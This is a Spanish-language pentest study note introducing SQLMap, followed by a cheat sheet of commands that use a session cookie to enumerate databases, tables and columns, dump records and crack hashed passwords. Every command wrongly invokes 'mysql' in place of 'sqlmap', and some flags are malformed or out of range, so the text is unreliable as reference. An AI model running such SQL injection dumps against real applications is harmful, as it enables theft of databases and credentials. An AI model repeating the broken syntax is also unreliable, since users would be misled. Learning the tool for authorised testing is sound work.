 ----
- Tags: #tools #automatic
---

# ¿ Que es **SQLMap** ? 

### **SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos. 

### SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación. 

### Al utilizar SQLMap, lo profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

----

# Automatización 

### Por ejemplo, podríamos estar logeados en una página la cual es vulnerable a [[SQLI - (Inyecciones SQL)]] y hacer uso de **SQLMap** para automatizar las inyecciones de manera automatica: 

## Listar DataBases de una URL con cookies: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka"
```

## Aclarar el gestor de base de datos:
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -dbms mysql 
```

## Aceptar por default las preguntas que realiza SQLMap: 
```bash
mysql -u http://{url} --dbs --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --batch 
```

## Enumerar tablas de una base de datos: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} --tables
```

## Enumerar columnas de una tabla:
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} --columns
```

## Enumerar registros de una columna: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" -D {db_name} -T {table_name} -C {colum1},{column2} --dump
```
#### Si se piden listar registros de contraseñas y estas están hasheadas, se comenzara un proceso de fuerza bruta para intentar crackear dichas credenciales. 

## Enumerar de manera más profunda: 
```bash
mysql -u http://{url} --cookie "PHPSESSID=dklsajfjkadsjfkjajdkjadjka" --dbms mysql --risk 4 --level 5
```
